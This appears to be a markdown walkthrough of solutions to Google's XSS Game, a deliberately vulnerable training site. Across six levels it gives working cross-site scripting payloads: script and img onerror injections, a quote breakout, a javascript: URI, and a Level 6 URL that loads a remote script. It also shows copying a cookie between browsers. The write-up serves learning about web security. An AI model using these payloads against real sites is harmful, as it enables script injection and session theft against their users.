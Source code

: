 # Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```code
level1=f148716ef4ed1ba0f192cde4618f8dc5;
level2=b5e530302374aa71cc3028c810b63641;
level3=d5ce029d0680b3816a349da0d055fcfa;
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## [Level 4](https://xss-game.appspot.com/level4)

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```

   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:
   
   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```
   
   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:
   
   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```
   
   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:
   
   ```
   javascript:alert(1)
   ```
   
   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
